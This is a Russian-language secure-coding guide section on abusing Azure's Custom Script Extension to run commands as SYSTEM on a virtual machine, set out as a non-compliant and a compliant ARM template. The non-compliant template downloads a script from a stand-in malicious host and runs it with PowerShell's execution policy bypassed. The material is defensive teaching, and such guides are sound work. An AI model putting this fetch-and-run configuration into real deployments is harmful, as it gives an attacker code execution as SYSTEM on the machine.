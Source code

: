 

## Выполнение команды на виртуальной машине с помощью расширения Custom Script Extension

Выполнение команды на виртуальной машине с помощью расширения Custom Script Extension в Azure позволяет злоумышленнику передать виртуальной машине команды PowerShell в виде SYSTEM, что дает ему возможность выполнять несанкционированные действия.

Несоответствующий код:
Следующий код, не соответствующий требованиям, демонстрирует выполнение команды на виртуальной машине с помощью расширения Custom Script Extension без соблюдения лучших практик безопасности:

```
{
  "type": "Microsoft.Compute/virtualMachines/extensions",
  "name": "CustomScriptExtension",
  "apiVersion": "2020-12-01",
  "location": "<vm-location>",
  "properties": {
    "publisher": "Microsoft.Compute",
    "type": "CustomScriptExtension",
    "typeHandlerVersion": "1.10",
    "autoUpgradeMinorVersion": true,
    "settings": {
      "fileUris": ["https://malicious-site.com/malicious-script.ps1"],
      "commandToExecute": "powershell.exe -ExecutionPolicy Bypass -File malicious-script.ps1"
    }
  }
}
```

Несоответствующий код напрямую ссылается на вредоносный скрипт, размещенный на удаленном сайте, и выполняет его на виртуальной машине без учета лучших практик безопасности.

Соответствующий код:
Следующий код, соответствующий требованиям, демонстрирует выполнение команды на виртуальной машине с помощью расширения Custom Script Extension, соблюдая при этом передовые методы обеспечения безопасности:

```
{
  "type": "Microsoft.Compute/virtualMachines/extensions",
  "name": "CustomScriptExtension",
  "apiVersion": "2020-12-01",
  "location": "<vm-location>",
  "properties": {
    "publisher": "Microsoft.Compute",
    "type": "CustomScriptExtension",
    "typeHandlerVersion": "1.10",
    "autoUpgradeMinorVersion": true,
    "settings": {
      "fileUris": ["https://secure-site.com/secure-script.ps1"],
      "commandToExecute": "powershell.exe -ExecutionPolicy RemoteSigned -File secure-script.ps1"
    },
    "protectedSettings": {
      "storageAccountName": "<storage-account-name>",
      "storageAccountKey": "<storage-account-key>"
    }
  }
}
```
